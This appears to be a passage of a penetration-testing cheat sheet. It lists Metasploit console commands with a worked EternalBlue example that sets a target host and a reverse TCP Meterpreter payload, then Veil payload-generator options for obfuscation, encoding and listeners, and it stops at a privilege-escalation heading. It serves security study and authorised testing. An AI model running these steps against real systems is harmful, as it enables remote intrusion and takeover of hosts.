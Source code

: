 **Default Usage** 
	`msfconsole` - Launch the interactive console

**OPTIONS**

- `help` = Display help information
- `search [TERM]` = Search for modules or payloads
- `use [MODULE_PATH]` = Select a module for exploitation
- `show [OPTION]` = Show information about modules, payloads, exploits, etc.
- `set [OPTION] [VALUE]` = Set options for the selected module
- `unset [OPTION]` = Unset options for the selected module
- `exploit` = Execute the selected exploit module
- `payload [PAYLOAD_NAME]` = Choose a payload for exploitation
- `options` = Show current options for the selected module
- `run` = Execute the selected module with provided options
- `info [MODULE_PATH]` = Display detailed information about a module
- `exit` or `quit` = Exit the console

**Example Usage**

- `search eternalblue` - Search for modules related to EternalBlue exploit
- `use exploit/windows/smb/ms17_010_eternalblue` - Select the EternalBlue exploit module
- `set RHOSTS 192.168.1.10` - Set the target host IP address
- `set PAYLOAD windows/meterpreter/reverse_tcp` - Set the payload to a reverse TCP Meterpreter shell
- `exploit` - Execute the exploit with the selected options
- `sessions -i 1` - Interact with session 1 after successful exploitation

## [[veil]]

Payload generator.

**Default Usage** 
`veil [PAYLOAD]` - Payload can be selected from available options

**OPTIONS**

- `--list` = List available payloads
- `--payload` = Specify the payload to generate
- `--output` = Specify the output directory
- `--overwrite` = Overwrite existing files if present
- `--msfvenom` = Use msfvenom as the payload generator
- `--python` = Use Python as the payload generator
- `--powershell` = Use PowerShell as the payload generator
- `--exe` = Generate payload as executable file
- `--dll` = Generate payload as dynamic-link library file
- `--shellcode` = Generate payload as shellcode
- `--loop` = Generate payload in a loop
- `--obfuscate` = Obfuscate the payload
- `--encode` = Encode the payload
- `--listener` = Start a listener for the payload

# Privilege Escalation
---
## [[PEASS-ng]] (Privilege Escalation Awesome Scripts SUITE)
